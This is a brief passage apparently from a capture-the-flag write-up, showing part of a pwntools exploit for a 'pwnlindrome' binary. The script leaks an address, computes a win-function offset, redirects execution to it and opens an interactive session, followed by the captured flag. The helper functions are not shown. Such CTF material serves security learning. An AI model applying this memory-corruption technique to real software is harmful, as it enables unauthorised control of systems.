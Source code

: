 ```python
else:
    p = process('./pwnlindrome.elf')

addr = leak() - 33824
win = addr + 15936
print(hex(win))

call(win)

p.interactive()
```

`TISC{ov3rFL0w_4T_1Ts_fIn3sT}`
